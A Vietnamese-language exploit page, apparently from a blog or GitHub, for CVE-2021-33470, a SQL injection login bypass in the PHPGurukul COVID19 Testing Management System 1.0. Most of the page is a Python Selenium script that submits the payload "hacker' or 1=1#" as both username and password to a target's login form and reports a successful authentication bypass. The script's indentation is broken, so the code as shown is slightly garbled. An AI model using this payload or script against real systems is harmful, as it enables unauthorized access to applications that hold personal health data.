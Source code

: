 ```yaml
---
title: Khai thác hệ thống quản lý kiểm tra COVID19 1.0 - (SQL Injection)
date: 9/6/2021
layout: single
--- 
```

---
# Ngôn Ngữ
[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org)

## Mô Tả 
+ Lỗi: CVE-2021-33470
+ Tác giả: @nu11secur1ty
+ Link: [Hệ thống quản lý kiểm tra COVID19 sử dụng PHP và MySQL](https://phpgurukul.com/covid19-testing-management-system-using-php-and-mysql)


--- 
## Bảng Demo khai thác
![demo](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-33470/CVE-2021-33470.gif?raw=true)

---

## Mã khai thác

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*- 
# Author: @nu11secur1ty
# Debug: @nu11secur1ty
# CVE: CVE-2021-33470
 
from selenium import webdriver
import time
 
 
#nhập liên kết đến trang web bạn muốn đăng nhập tự động.
website_link="http://target/Covid19-TMS%20Project%20Using%20PHP%20and%20MySQL/covid-tms/login.php"
 
#enter your login username SQL bling injection
username="hacker' or 1=1#"
#enter your login password SQL bling injection
password="hacker' or 1=1#"
 
# test and proof the SQL injection
# user: admin
# password: password
 
#enter the element for username input field
element_for_username="username"
#enter the element for password input field
element_for_password="inputpwd"
 
#enter the element for submit button by class
element_for_submit="btn.btn-primary.btn-user.btn-block"
 
#browser = webdriver.Safari() #for macOS users[for others use chrome vis
chromedriver]
browser = webdriver.Chrome() #uncomment this line,for chrome users
#browser = webdriver.Firefox() #uncomment this line,for chrome users
 
browser.get((website_link))
 
try:
username_element = browser.find_element_by_name(element_for_username)
username_element.send_keys(username)
password_element  = browser.find_element_by_name(element_for_password)
password_element.send_keys(password)
time.sleep(3)
signInButton = browser.find_element_by_class_name(element_for_submit)
signInButton.click()
 
print("payload is deployed NOW, you have SQL Authentication Bypass =)...\n")
 
except Exception:
#### This exception occurs if the element are not found in the webpage.
print("Some error occured :(")
```

---
## Bạn có thể tham khảo đầy đủ tại đây 
+ [https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-33470](https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-33470)
## Chúc May Mắn :D

